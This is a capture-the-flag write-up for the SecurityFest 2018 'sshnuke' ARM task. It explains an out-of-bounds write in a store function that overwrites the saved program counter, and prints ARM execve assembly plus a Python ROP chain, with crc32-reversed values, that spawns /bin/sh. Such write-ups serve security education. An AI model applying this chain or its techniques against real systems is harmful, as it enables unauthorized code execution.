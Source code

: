 # sshnuke
This is ARM ROP task.

![](/images/SecurityFestCTF2018/sshnuke/01.png)

For comfortable debugging I was using Azeria-Lab-v1 VM from https://azeria-labs.com/arm-lab-vm/


Vulnerability is in store function - no check for max slot value, slots array size = 12 => overflow. 

slots[13] = bp (frame pointer, analogue of ebp) 

slots[14] = pc (program counter, analogue of eip)

Same vulnerability in read_store function => can leak, but ASLR was off, so leak was not needed.


On ARM syscall execve got following structure:

```
syscall execve("/bin/sh", argv, env) => execve("/bin/sh", 0, 0)

add r0, 0x099014   ; /bin/sh addr
mov r1, #0
mov r2, #0
mov r7, #11        ; number of execve() syscall 
svc #0             ; syscall
```

0x099014 - is address where login string is placed:

![](/images/SecurityFestCTF2018/sshnuke/02.png)


Using ROPgadget I found required gadgets to make syscall execve("/bin/sh", 0, 0). 

There was no "pop {r2, pc}" gadget, so I used:

```
pop {r0, r4, pc}
mov r2, r4 ; blx r3
```

"blx r3" instruction will brunch at an address specified by a register r3 (analogue of call).


Also there are calculated crc32 hash of user input string in _do_store function.

![](/images/SecurityFestCTF2018/sshnuke/03.png)

So we have to do reverse crc32. I used script from https://github.com/theonlypwner/crc32/blob/master/crc32.py


Final rop:

```python
login('/bin/sh\x00')

store_data(14, crc32_reverse(pop_r1_pc), True, False)
store_data(15, crc32_reverse(0), True, True)
store_data(16, crc32_reverse(pop_r7_pc), True, True)
store_data(17, crc32_reverse(11), True, True)
store_data(18, crc32_reverse(pop_r3_pc), True, True)
store_data(19, crc32_reverse(svc_0), True, True)  
store_data(20, crc32_reverse(pop_r0_r4_pc), True, True)
store_data(21, crc32_reverse(login_str_addr), True, True)
store_data(22, crc32_reverse(0), True, True)
store_data(23, crc32_reverse(mov_r4_r2_blx_r3), False, True)
```

![](/images/SecurityFestCTF2018/sshnuke/04.png)
 


